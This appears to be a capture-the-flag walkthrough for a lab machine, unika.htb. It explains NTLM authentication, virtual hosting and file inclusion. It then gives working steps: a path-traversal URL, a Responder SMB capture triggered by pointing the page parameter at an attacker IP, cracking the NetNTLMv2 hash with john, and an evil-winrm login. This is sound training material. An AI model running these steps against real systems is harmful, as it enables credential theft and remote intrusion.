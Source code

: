 ## New Technology Lan Manager 

Microsoft employs NTLM (New Technology LAN Manager) & Kerberos for authentication services.
This lab focuses on how a File Inclusion vulnerability on a webpage being served on a windows machine can be exploited to collect the NetNTLMv2 challenge of the user that is running the web server. We will use a utility called Responder to capture a NetNTLMv2 hash.

Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 
```
WinRM allows the user to :
→ Remotely communicate and interface with hosts
→ Execute commands remotely on systems that are not local to you but are network accessible.
→ Monitor, manage and configure servers, operating systems and client machines from a remote location.
```
As a pentester, this means that if we can find credentials (typically username and password) for a user who
has remote management privileges, we can potentially get a PowerShell shell on the host.



The website has redirected the browser to a new URL, and your host doesn't know how to find unika.htb. 
This webserver is employing name-based Virtual Hosting for serving the requests.

Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of each name) on a single server. 
This allows one server to share its resources, such as memory and processor cycles, without requiring all the services to be used by the same hostname.
The web server checks the domain name provided in the Host header field of the HTTP request and sends a response according to that.

```
echo "10.129.136.91   unika.htb" | sudo tee -a /etc/hosts
```
Adding this entry in the /etc/hosts file will enable the browser to resolve the hostname unika.htb to
the corresponding IP address & thus make the browser include the HTTP header Host: unika.htb in
every HTTP request that the browser sends to this IP address, which will make the server respond with the
webpage for unika.htb.



File Inclusion Vulnerability

Dynamic websites include HTML pages on the fly using information from the HTTP request to include GET
and POST parameters, cookies, and other variables. It is common for a page to "include" another page
based on some of these parameters.

LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not
intended to be an option for this application. A common example is when an application uses the path to a file as input. 
If the application treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system. 
In some limited cases, an LFI can lead to code execution as well.

RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.

We test the page parameter to see if we can include files on the target system in the server response.
One of the most common files that a penetration tester might attempt to access on a Windows machine to verify LFI is the hosts file :
```
WINDOWS\System32\drivers\etc\hosts
```
The ../ string is used to traverse back a directory, one at a time. Thus multiple ../ strings are
included in the URL so that the file handler on the server traverses back to the base directory i.e. C:\.
```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

The file inclusion, in this case, was made possible because in the backend the include() method of PHP is
being used to process the URL parameter page for serving a different webpage for different languages.
And because no proper sanitization is being done on this page parameter, we were able to pass malicious
input and therefore view the internal system files.
The  include statement takes all the text/code/markup that exists in the specified file and loads it into the
memory, making it available for use.

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
```
The NTLM authentication process is done in the following way :

  1. The client sends the user name and domain name to the server.
  2. The server generates a random character string, referred to as the challenge.
  3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server.
  4. The server retrieves the user password (or equivilent).
  5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. 
     The value is then compared to the value received from the client. If the values match, the client is authenticated.
```

A hash function is a one way function that takes any amount of data and returns a fixed size value.
Typically, the result is referred to as a hash, digest, or fingerprint. They are used for storing passwords
more securely, as there's no way to convert the hash directly back to the original data (though there
are attacks to attempt to recover passwords from hashes, as we'll see later). So a server can store a
hash of your password, and when you submit your password to the site, it hashes your input, and
compares the result to the hash in the database, and if they match, it knows you supplied the correct
password.

An NTHash is the output of the algorithm used to store passwords on Windows systems in the SAM
database and on domain controllers. An NTHash is often referred to as an NTLM hash or even just an
NTLM, which is very misleading / confusing.

When the NTLM protocol wants to do authentication over the network, it uses a challenge / response
model as described above. A NetNTLMv2 challenge / response is a string specifically formatted to
include the challenge and response. This is often referred to as a NetNTLMv2 hash, but it's not actually
a hash. Still, it is regularly referred to as a hash because we attack it in the same manner. You'll see
NetNTLMv2 objects referred to as NTLMv2, or even confusingly as NTLM.

In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that
PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if
allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.
In our case, we can misuse this functionality to steal the NTLM hash.


Responder will set up a malicious SMB server. When the target machine attempts to perform the NTLM authentication to that server, Responder
sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same
challenge-response, and if we find one, we know that is the password. This is often referred to as hash
cracking.

```
Location of Responder.conf file -
-> for default system install : /usr/share/responder/Responder.conf
-> for github installation   : /installation_directory/Responder.conf

sudo responder -I {network_interface}
```
With the Responder server ready, we tell the server to include a resource from our SMB server by setting
the page parameter as follows via the web browser.
```
http://unika.htb/?page=//{attacker_IP}/somefile
```
In this case, because we have the freedom to specify the address for the SMB share, we specify the IP
address of our attacking machine. Now the server tries to load the resource from our SMB server, and
Responder captures enough of that to get the NetNTLMv2.
```
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```
The NetNTLMv2 includes both the challenge (random text) and the encrypted response.

The hash type is automatically identified by the john command-line tool :
```
john -w=/usr/share/wordlists/rockyou.txt hash.txt

  -w : wordlist to use for cracking the hash
```
john will try each password from the given password list, encrypting the challenge with that password. If
the result matches the response, then it knows it found the correct password. 

5985/tcp WinRM for HTTP

Because PowerShell isn't installed
on Linux by default, we'll use a tool called Evil-WinRM which is made for this kind of scenario.
```
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```
